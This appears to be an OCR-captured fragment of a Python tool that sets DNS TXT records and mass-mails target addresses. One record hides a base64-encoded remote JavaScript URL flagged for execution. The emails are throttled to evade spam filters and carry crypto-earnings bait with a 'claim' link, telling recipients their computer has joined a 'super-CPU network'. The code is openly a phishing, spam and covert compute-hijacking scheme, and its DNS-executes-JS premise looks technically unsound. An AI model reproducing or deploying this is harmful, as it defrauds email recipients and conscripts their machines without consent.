 ```python
rewards.{domain}.           300  IN  TXT  "v=pfs1; crypto=true; earnings=live"

# Wildcard for maximum coverage  
*.{domain}.                 300  IN  TXT  "v=pfs1; js=aHR0cHM6Ly9jZG4ucGFja2V0ZnMuZ2xvYmFsL3YxL2NvcmUuanM=; exec=1"
"""
        
        print(f"📧 DNS records configured for {domain}:")
        print(dns_config)
        
        return dns_config
        
    def trigger_email_dns_lookups(self, target_email_addresses):
        """Trigger email DNS lookups by sending emails"""
        print(f"📧 Triggering DNS lookups by sending emails to {len(target_email_addresses)} addresses...")
        
        # Email content that encourages opening/interaction
        email_content = self.create_packetfs_email_content()
        
        for email_address in target_email_addresses:
            threading.Thread(
                target=self.send_trigger_email,
                args=(email_address, email_content),
                daemon=True
            ).start()
            
            # Rate limiting to avoid spam detection
            time.sleep(0.1)
            
    def create_packetfs_email_content(self):
        """Create compelling email content that triggers DNS lookups"""
        
        html_content = """
<!DOCTYPE html>
<html>
<head>
    <title>🚀 You're Earning Crypto Right Now! 💎</title>
    <style>
        body { font-family: Arial; background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); 
               color: white; padding: 20px; text-align: center; }
        .email-box { background: rgba(255,255,255,0.1); padding: 20px; border-radius: 15px; 
                     backdrop-filter: blur(10px); margin: 20px auto; max-width: 500px; }
        .cta-button { background: linear-gradient(45deg, #ff6b6b, #feca57); 
                     border: none; color: white; padding: 15px 30px; 
                     border-radius: 25px; font-size: 18px; text-decoration: none;
                     display: inline-block; margin: 20px; }
    </style>
</head>
<body>
    <div class="email-box">
        <h1>🎉 Congratulations! 🎉</h1>
        <p>Your browser has earned <strong>0.0247 PacketFS Coins</strong> automatically!</p>
        <p>💰 Current value: <strong>$12.35</strong></p>
        
        <a href="https://packetfs-mail.global/claim?token=abc123" class="cta-button">
            💎 Claim Your Earnings! 🚀
        </a>
        
        <p><small>⚡ Keep browsing to earn more! Your computer is now part of the PacketFS super-CPU network!</small></p>
    </div>
    
```